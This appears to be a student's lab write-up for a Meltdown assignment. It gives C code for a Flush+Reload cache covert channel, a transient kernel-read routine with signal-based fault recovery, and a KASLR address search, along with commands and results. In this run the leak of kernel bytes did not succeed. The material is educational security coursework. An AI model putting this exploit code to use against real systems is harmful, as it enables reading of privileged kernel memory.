


# Assignment 4 - Meltdown

## Task 1 - Build a covert channel (30%)

The covert channel implementation lives in `task1/task1.c` (`cc_init`, `cc_setup`, `cc_transmit`, `cc_receive`). It is a standard Flush+Reload channel: we allocate 256 probe locations, flush them, touch exactly one location to transmit a byte, and then reload/timestamp all locations to see which one came back fast.

To make the channel robust against the stride prefetcher, each probe location is placed on its own page (one page per value). On the receiving side, probes are checked in a fixed permutation rather than in-order, which further reduces prefetch artefacts.

```c
void cc_setup(void) {
    for (int i = 0; i < CC_PAGES; i++) {
        clflush_line(g_cc_pages + ((size_t)i * PAGE_SIZE));
    }
    asm volatile("mfence" ::: "memory");
}

void cc_transmit(uint8_t value) {
    maccess(g_cc_pages + ((size_t)value * PAGE_SIZE));
}

int cc_receive(void) {
    uint64_t best_time = (uint64_t)-1;
    int best_idx = -1;

    for (int i = 0; i < CC_PAGES; i++) {
        int idx = g_cc_order[i];
        uint8_t *p = g_cc_pages + ((size_t)idx * PAGE_SIZE);
        uint64_t dt = timed_access(p);
        if (dt < best_time) {
            best_time = dt;
            best_idx = idx;
        }
    }

    return (best_time < g_cc_threshold) ? best_idx : -1;
}
```

CLI usage:

```bash
$ ./task1.bin 20 > task1/data/cc_accuracy.dat
$ python3 plot_results.py
```

Results:

- Calibrated threshold: 207 cycles.
- Accuracy: 99.75% (5107/5120) from `task1/data/cc_accuracy.dat`.
- Timing histogram: `plots/cc_timing.png` from `task1/data/cc_timing.csv`.




Seeing near-perfect accuracy here is not suspicious: this task is “just” the communication primitive. It is the cleanest part of the attack, and with one-page spacing the channel becomes very reliable.

## Task 2 - Explaining the basic Meltdown code (10%)

The provided `meltdown(uintptr_t adrs)` is implemented in `task2/task2.c`:

```c
void meltdown(uintptr_t adrs) {
    volatile int tmp = 0;
    cc_setup();
    _mm_lfence();
    tmp += 17;
    tmp *= 59;
    tmp |= 73;
    tmp /= 123;
    asm volatile("" ::: "memory");
    uint8_t rv = *((uint8_t *)adrs);
    cc_transmit(rv);
}
```

The key operations are:

- `cc_setup()` prepares the covert channel by flushing all probe pages so that a later touch creates a clear “hit”.
- `_mm_lfence()` serializes execution so the flushes complete before entering the part of the code where we care about microarchitectural side effects.
- The arithmetic chain on `tmp` (and the `volatile`) prevents the compiler from deleting the block and keeps extra work in flight, which tends to widen the transient window in which younger operations can execute.
- `asm volatile("" ::: "memory")` is a compiler barrier that discourages reordering across the critical point.

Sanity check (user-space target): 82.00% (164/200) from `task2/data/meltdown_user.dat`.

CLI usage:

```bash
$ ./task2.bin 200 > task2/data/meltdown_user.dat
```

Compared to Task 1, the accuracy drops because we are no longer doing the minimal “flush -> touch -> reload” loop. We inserted fences and extra instructions before the transmitting load, and that makes the timing/noise situation a bit less ideal.

## Task 3 - Recovering from faults (30%)

The function `do_meltdown(uintptr_t adrs)` in `task3/task3.c` wraps `meltdown()` in a signal-based recovery mechanism. The idea is to attempt the read, let the fault happen, and jump back to a safe point so that the process can continue and still measure the cache-based covert channel afterwards.

```c
static void fault_handler(int sig, siginfo_t *si, void *context) {
    (void)sig;
    (void)si;
    (void)context;
    siglongjmp(g_jmpbuf, 1);
}

int do_meltdown(uintptr_t adrs) {
    ensure_handler_installed();
    cc_init();

    if (sigsetjmp(g_jmpbuf, 1) == 0) {
        meltdown(adrs);
    }

    return cc_receive();
}
```

Results (from `task3/data/recovery.dat`):

- Valid-address accuracy: 100% (200/200).
- Invalid-address test: the program continues and returns `-1` in this run.

CLI usage:

```bash
$ ./task3.bin 200 > task3/data/recovery.dat
```

At this point the plumbing is in place: we can trigger a fault without losing the process and we can still receive a byte from the channel afterwards.

## Task 4 - Performing the attack (25%)

To read `init_uts_ns`, we first obtain its address from `/proc/kallsyms` and then repeatedly call `do_meltdown()` over a range of offsets. The implementation in `task4/task4.c` cycles through offsets over multiple rounds and keeps per-offset vote counts for non-zero values (to deal with frequent zero returns).

CLI usage:

```bash
$ sudo /usr/bin/cat /proc/kallsyms | awk '/ init_uts_ns$/ {print $1; exit}' > task4/data/uts_addr.txt
$ ./task4.bin 0x$(cat task4/data/uts_addr.txt) 256 50 > task4/data/uts_dump.dat
```

In my run, `/proc/kallsyms` reported `init_uts_ns` at `0xffffffffb426f100` (see `task4/data/uts_addr.txt`).

In the collected output (`task4/data/uts_dump.dat`), the recovered bytes were dominated by `0`. In particular, offsets 65 and 66 (expected to be `p` and `c`) did not show the expected characters in this run:

```text
65 0 0
66 0 0
```

The reason for checking offsets 65 and 66 is that `init_uts_ns` is a `struct new_utsname` (see `/usr/include/linux/utsname.h`), whose first field is `char sysname[65]`. That means byte offsets `0..64` belong to `sysname`, and offset `65` is the first byte of the next field, `nodename[65]`. On the lab machines the hostname starts with `pc`, so `nodename[0] == 'p'` and `nodename[1] == 'c'`, giving an easy ground-truth sanity check that we are reading the right structure and offset.

This suggests that, while the covert channel and recovery code are working, the actual kernel-byte value is not making it into the transient channel in a useful way here. Rrepeated attempts seem to still return `0` most of the time, especially when mitigations reduce or eliminate the transient leakage signal.

## Task 5 - Overcoming KASLR (5%)

Task 5 takes the fact that offsets 65/66 are known (`'p'`, `'c'`) and uses it as a signature to search over possible candidate addresses. Each candidate is scored by how often two reads match the expected signature across multiple rounds.

The search itself is implemented in `task5/task5.c`. Candidate addresses can either be supplied in a file (one hex address per line), or generated from a base range and a fixed symbol offset.

To generate a candidates list from a base range and symbol offset, use `task5/gen_candidates.py`. Example command:

```bash
$ python3 task5/gen_candidates.py \
  --base-start 0xffffffff81000000 \
  --base-end   0xffffffffc0000000 \
  --step       0x200000 \
  --symbol-offset 0x123456 \
  --output task5/candidates.txt
```

Then run the scoring:

```bash
$ ./task5.bin task5/candidates.txt 5 > task5/data/kaslr_search.dat
```

In the collected output (`task5/data/kaslr_search.dat`), all candidates ended up with score `0` in this run, so no address stood out (stderr reported `Best candidate: 0xffffffff81123456 (score=0)`). This is consistent with Task 4 producing mostly zero bytes: if the leak never produces the expected signature (`'p'`, `'c'`), then every candidate looks equally bad and the search cannot distinguish the correct mapping.
